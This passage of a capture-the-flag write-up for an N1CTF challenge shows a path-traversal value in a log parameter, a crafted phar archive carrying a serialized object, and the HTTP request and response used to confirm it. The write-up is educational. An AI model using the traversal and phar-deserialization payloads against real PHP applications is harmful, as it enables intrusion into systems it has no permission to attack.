 ```
print(logUrl)
```

The first few times I ran this, the newly-created log file, upon downloading and inspecting it, was ONE SECOND later than the one I had planned for.

However, on the third try, it worked and the date/time `log.php` created was EXACTLY the same as the one I was hoping for.

Here's me downloading this newly-created `.log` file so that I could tell the time was the same as the file I created locally.

```
GET /sam33_48981_www.log HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Sun, 21 Nov 2021 15:28:42 GMT
Content-Type: application/octet-stream
Content-Length: 5122
Last-Modified: Sun, 21 Nov 2021 15:28:32 GMT
Connection: close
ETag: "619a65a0-1402"
Accept-Ranges: bytes


Time: 2021-11-21 15:28:32 IP: [], REQUEST: [log_type=..%2F..%2Fsam33_48981], CONTENT: [test.txt000064400000000004141464626400021537 0ustar00text.phar/stub.php000066600000000035141464626400007253 0ustar00<?php __HALT_COMPILER(); ?>
.phar/.metadata.bin000000000000000017000000000000010025 0ustar00O:4:"FLAG":0:{}.phar/signature.bin000066600000000034141464626400010257 0ustar004¯_,L(Ür1Ifÿü÷´Øæ]
```

Recall that the python code guesses at the `$log` prefix content, builds, a tar.phar with that content and then strips off the leading text so that log.php will then add it back in.

# Get the Flag

We can now get the flag using a web browser:

![](media/flag.png)

This was very challenging for me and I was stuck several times.  Thanks to N1CTF for a very nice challenge!
